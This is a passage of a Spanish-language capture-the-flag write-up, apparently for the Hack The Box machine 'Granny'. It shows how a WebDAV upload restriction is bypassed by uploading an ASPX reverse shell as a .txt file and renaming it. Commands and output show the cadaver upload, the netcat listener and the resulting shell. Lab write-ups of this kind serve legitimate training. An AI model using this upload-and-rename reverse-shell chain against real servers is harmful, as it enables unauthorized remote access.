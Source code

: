 > El protocolo **WebDAV** (Web-based Distributed Authoring and Versioning) está desarrollado por la IETF, es un protocolo que se encarga de permitirnos de forma sencilla guardar, editar, copiar, mover y compartir archivos desde servidores web. 
{: .prompt-info}

Con esto se puede ver que el servidor no permite subir archivos **.aspx**, pero gracias a lo que se vio con **nmap**, se ve que está habilitada la opción para mover y cambiar el nombre. Por lo tanto, se puede subir un archivo **.txt** con la shell reversa y, una vez dentro, cambiarle el nombre. Para la shell reversa, se va a hacer uso del siguiente [archivo](https://github.com/borjmz/aspx-reverse-shell); el cual será modificado para el caso.


```bash
cadaver http://10.10.10.15
dav:/> put shell.txt 
Uploading shell.txt to `/shell.txt':
Progress: [=============================>] 100.0% of 15970 bytes succeeded.
dav:/> move shell.txt shell.aspx
Moving `/shell.txt' to `/shell.aspx':  succeeded.
dav:/> 
```
{: .nolineno}

Se pone a la escucha en el puerto correspondiente con **netcat**.

```bash
nc -lvp 4444
```
{: .nolineno}

Y se busca el recurso **shell.aspx** dentro del servidor web para que se ejecute y se obtenga la shell.

![carga](/granny/carga.png)


Y se obtiene el siguiente resultado: 

```bash
nc -lvp 4444
listening on [any] 4444 ...
10.10.10.15: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.15] 1030
Spawn Shell...
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```
{: .nolineno}


## Escalada de Privilegio
